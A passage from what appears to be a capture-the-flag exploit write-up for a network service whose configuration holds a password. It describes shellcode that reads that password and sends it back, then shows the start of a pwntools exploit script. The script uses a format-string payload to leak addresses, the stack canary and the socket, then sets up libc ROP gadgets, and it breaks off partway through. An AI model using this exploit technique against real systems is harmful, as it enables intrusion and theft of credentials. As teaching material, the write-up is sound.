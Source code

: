 Next we use rewind() c function to convert the file stream to it's original state, as the file stream is used before to read the entire file we can't just use it again , this like seeking to the beginning of the fd.

next we use fgets to read the config file line by line , if it's the Password line then write send it back to use if not then keep reading.

# Final Exploit

```python
#!/usr/bin/python3

from pwn import *
from time import sleep

io = remote("172.17.0.2", 1337)

context.arch = "i386"

def getParam(param):
    io.sendline(b"Command.GetParameterValue." + param.encode())
    io.readline(b"[OK] \n")
    ret = io.readline()
    return ret

def setParam(param, value):
    io.sendline(b"Command.SetParameterValue." + param.encode())
    io.readline()
    io.sendline(value)
    io.readline()


# Leaking binary address, stack canary, libc address, socket fd
PAYLOAD = b"%p|%157$p|%168$p|%6$p"
setParam("SSID", PAYLOAD)
leak = getParam("SSID")

leak = leak.rstrip(b"\n").lstrip(b"\r").split(b"|")

BIN_BASE = int(leak[0].decode(), 16) - 0x214b
log.info("Binary base address: {}".format(hex(BIN_BASE)))

BSS = BIN_BASE + 0x6000
log.info("BSS section base address: {}".format(hex(BSS)))

CANARY = int(leak[1].decode(), 16)
log.info("Stack canary: {}".format(hex(CANARY)))

LIBC_BASE = int(leak[2].decode(), 16) - 0x223e34
log.info("Libc base address: {}".format(hex(LIBC_BASE)))

SOCK = int(leak[3].decode(), 16)
log.info("Socket: {}".format(hex(SOCK)))


# libc functions
mprotect = p32(LIBC_BASE + 0x11fe60)
fgets = LIBC_BASE + 0x73130
rewind = LIBC_BASE + 0x7c3b0
send = LIBC_BASE + 0x1281e0

# libc gadgets
pop_eax = p32(LIBC_BASE + 0x12b1f1)
```